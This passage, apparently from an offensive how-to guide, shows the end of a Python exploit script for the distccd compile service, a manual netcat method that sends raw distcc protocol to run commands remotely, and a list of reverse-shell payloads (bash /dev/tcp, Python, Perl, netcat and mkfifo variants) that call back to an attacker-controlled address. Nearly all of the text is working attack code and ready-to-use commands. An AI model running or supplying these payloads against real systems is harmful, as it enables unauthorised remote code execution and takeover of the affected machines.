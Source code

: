 ```bash
    except Exception as e:
        print(f"Exploitation failed: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python3 distcc_exploit.py <target-ip> '<command>'")
        print("Example: python3 distcc_exploit.py 192.168.1.10 'nc 192.168.1.5 4444 -e /bin/bash'")
        sys.exit(1)
    
    target = sys.argv[1]
    command = sys.argv[2]
    
    print(f"Exploiting distccd on {target}")
    print(f"Command: {command}")
    exploit_distcc(target, command)
EOF

python3 exploit.py <target-ip> 'nc <your-ip> 4444 -e /bin/bash'
```

#### Alternative Manual Method
```bash
# Using netcat to send raw distcc protocol
{
    echo "DIST 1"
    echo "ARGC 4" 
    echo "ARGV0 sh"
    echo "ARGV1 -c"
    echo "ARGV2 nc <your-ip> 4444 -e /bin/bash"
    echo "ARGV3 ;"
    echo "DOTI"
    echo "DONE"
} | nc <target-ip> 3632
```

### Method 3: Advanced Command Injection

#### Reverse Shell Payloads
```bash
# Bash reverse shell
python3 exploit.py <target-ip> '/bin/bash -i >& /dev/tcp/<your-ip>/4444 0>&1'

# Python reverse shell
python3 exploit.py <target-ip> 'python -c "import socket,subprocess,os;s=socket.socket();s.connect((\"<your-ip>\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])"'

# Perl reverse shell
python3 exploit.py <target-ip> 'perl -e "use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));connect(S,sockaddr_in(4444,inet_aton(\"<your-ip>\")));open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");"'

# Netcat variations
python3 exploit.py <target-ip> 'nc -e /bin/bash <your-ip> 4444'
python3 exploit.py <target-ip> 'nc <your-ip> 4444 -e /bin/sh'
python3 exploit.py <target-ip> 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 4444 >/tmp/f'
```
